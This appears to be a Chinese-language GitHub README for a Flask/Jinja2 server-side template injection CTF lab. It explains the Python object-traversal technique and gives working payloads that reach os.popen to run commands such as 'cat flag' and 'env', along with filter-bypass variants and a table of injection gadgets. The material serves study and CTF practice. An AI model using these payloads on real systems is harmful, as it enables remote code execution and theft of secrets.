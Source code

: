# web-ssti-flask
## ssti-flask-lab
### 关于ssti-flask：
- 由于代码漏洞产生，SSTI(Server-Side Template Injection)也就是服务器端模板注入，和其他如SQL注入、XSS注入等类似，是由于代码不严谨或不规范且信任了用户的输入而导致的。用户的输入在正常情况下应该作为普通的变量在模板中渲染，但SSTI在模板进行渲染时实现了语句的拼接，模板渲染得到的页面实际上包含了注入语句产生的结果。下面主要是以Jinja2为引擎的Flask模板的SSTI漏洞。Flask是一款使用python编写的模板。
- {{''.__class__.__base__.__subclasses__() }}这是一个探查class的模板payload，__class__是类中的一个内置属性，值是该实例的对应的类。这里使用的是''.__class__，得到的则是空字符串对应的类，也就是字符类。这样操作的意义是将我们现在操作的对象切换到类上面去，这样才能进行之后继承与被继承的操作，所以这里可以选用其他数据类型再来调用__class__属性，效果是一样的(例如[].__class__、{}.__class__、True.__class等)。_base__也是类中的一个内置属性，值当前类的父类，而在python中object是一切类最顶层的父类，也就是说我们可以过上一步获取到的类往上获取(一般数据类型的上一层父类中便有object)，最终便会获取到object，而由于object的特殊性，我们便能从object往下获取到其他所有的类，其中便有着能实现我们读取flag功能的类。(其他类似功能的还有__bases__、__mro__，但返回的数据包含类的元组，所以还需要下标选定object类) __subclasses__ ()是类中的一个内置方法，返回值是包含当前类所有子类的一个列表，通过上一步获取到的object我们实现了向下获取，接着我们需要在这些子类中获取合适的类
- {{''.__class__.__base__.__subclasses__()[xx].__init__.__globals__ }}_init__是类中的内置方法，在这个类实例化是自动被调用，但是返回值只能是None，且在调用是必须传入该类的实例对象。如果我们不去调用它，此时我们获得的是我们选取的类中的__init__这个函数。由于python一切皆对象的特性，函数本质上也是对象，也存在类中的一些内置方法和内置属性，所以我们可以执行接下来的操作。__globals__是函数中的一个内置属性，以字典的形式返回当前空间的全局变量，而其中就能找到我们需要的目标模块
- ''.__class__.__base__.__subclasses__()[80].__init__.__globals__['__builtins__'] => 选中"__builtins__"模块，在这个模块中有很多我们常用的内置函数和类，其中就有eval函数。
- 思路一般是找类，找类的基类，找基类的子类，然后找可以RCE的模块，其中存在WAF过滤很多字符，需要自行进行替换。
#### ssti-flask-labs
##### level 1
- 这里可以通过构造一个代码来遍历得到我们需要的类下标，一般是寻找os._wrap_close这个类，这个类中有popen方法，我们去调用它；查看没有WAF限制，构造{{"".__class__.__bases__[0]. __subclasses__()[133].__init__.__globals__['popen']('cat flag').read()}}
- 这里还可以使用{{''.__class__.__base__.__subclasses__()[80].__init__.__globals__['__import__']('os').popen('env').read()}}来注入；
##### level 2
- 这里过滤了{}，使用%print%来替代，构造{%print(().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('cat flag').read())%}
- 这里有看到{%print ''.__class__.__base__.__subclasses__()[80].__init__.__globals__['__import__']('os').popen('env').read()%}这种注入，其中import是直接主动导入了os模块然后调用popen方法；
## ssti的常见的函数
```
__class__            类的一个内置属性，表示实例对象的类。
__base__             类型对象的直接基类
__bases__            类型对象的全部基类，以元组形式，类型的实例通常没有属性 __bases__
__mro__              此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
__subclasses__()     返回这个类的子类集合，Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order.
__init__             初始化类，返回的类型是function
__globals__          使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。
__dic__              类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
__getattribute__()   实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
__getitem__()        调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b')
__builtins__         内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。即里面有很多常用的函数。__builtins__与__builtin__的区别就不放了，百度都有。
__import__           动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__()            返回描写这个对象的字符串，可以理解成就是打印出来。
url_for              flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
lipsum               flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}
current_app          应用上下文，一个全局变量。

request              可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
request.args.x1   	 get传参
request.values.x1 	 所有参数
request.cookies      cookies参数
request.headers      请求头参数
request.form.x1   	 post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		 post传参	(Content-Type:a/b)
request.json		 post传json  (Content-Type: application/json)
config               当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
g                    {{g}}得到<flask.g of 'flask_ssti'>
```